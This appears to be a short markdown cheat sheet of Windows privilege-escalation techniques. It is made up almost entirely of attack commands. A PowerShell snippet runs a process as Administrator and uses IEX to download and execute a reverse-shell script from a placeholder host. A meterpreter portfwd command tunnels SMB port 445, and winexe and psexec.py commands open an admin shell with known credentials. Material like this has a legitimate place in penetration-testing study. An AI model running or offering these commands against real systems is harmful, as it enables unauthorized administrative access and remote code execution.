 # windows privesc

## powershell

Execute command as different user if you have the password

```ssh
$SecPass = ConvertTo-SecureString 'password' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $SecPass)

Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://xxx.xxx.xxx:8000/rev.ps1')" -Credential $cred  
```

##  msf meterpreter portfwd
 
You can port potforward in meterpreter.
This tunnel 445 to your host so you can use psexec for privesc.
 
```ssh
portfwd add -l 445 -p 445 -r 127.0.0.1
```

Execute command

```
winexe -U administrator%password //127.0.0.1 cmd
psexec.py 'administrator:password@127.0.0.1' cmd
```
